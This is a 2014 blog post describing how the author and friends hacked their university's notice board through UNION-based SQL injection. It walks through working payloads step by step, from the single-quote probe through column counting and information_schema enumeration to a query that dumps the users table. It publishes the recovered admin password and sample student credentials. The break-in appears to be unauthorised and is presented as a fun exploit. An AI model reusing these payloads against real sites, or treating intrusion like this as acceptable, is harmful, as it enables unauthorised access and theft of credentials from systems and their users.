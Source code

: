 +++
title="How we hacked our university notice board?"
date="2014-07-10"
description="A post explaining how we hacked our notice board of our university by exploiting a SQL Injection vulnerability"
author="Nagesh Podilapu"
[taxonomies]
tags=["exploitation", "SQLi", "web"]
+++

It's been nearly 3 months since my last post. Today I thought It will be helpful for the guys who are interested in Cyber Security, If I write about UNION Based SQLi that we did on our university notice board.
A little learning part before we jump on to exploitation.

```
# Just selecting 1 2 and 3
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

# database() is a MySQL function to get current database name.
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

# Just selecting 1,database(),3
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

# group_concat() is a MySQL function which concatenates all the rows
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

# Example of a MySQL UNION operator.
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

# UNION only works when two select statements have the same no.of columns.
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

# To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
```

Good, now let's have a glance at why we started this.

After doing brute-force attack on a web page for getting flag in a [CTF](https://ctftime.org/ctf-wtf/), we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

So we explored that website a bit and noticed that there is a page **notice_view.php?id=1** which takes **id** as GET parameter.

![notice_view.php page](onb.png)

As we are web developers we came to an estimation that the backend MySQL query might be

```
select * from tablename where somecolumnname=$_GET["id"];
```

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

```
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
```

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

```
1 and 1=0 UNION select 1,2,3,4,5 --
```

So the resultant query becomes

```
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
```

That payload resulted in an error

```
The used SELECT statements have a different number of columns
```

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
```

![First Injection point](injected.png)

So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.

Cool, so now we can inject a code that will print database name on web page. There is a MySQL function **database()** which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
```

And result of this query is..

![Database name being displayed on page](database.png)

We have the database name **Notices**, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database **Notices**. In order to do so we have used this payload

```
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
```

And the result is

![Table names being displayed on page](tables.png)

Now we got all the tables in **Notices** Database and those are **notices, users**. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
```

![Column names being displayed on page](columns.png)

Now we just need to print password column from that table, used below payload.

```
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1, group_concat(username, "-", password), 3 from users --
```

Result is...

![Passwords being displayed on page](passwords.png)

Ah! Finally, the admin password is on page and it is: **admin@onb**

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7)<br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse)<br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy)
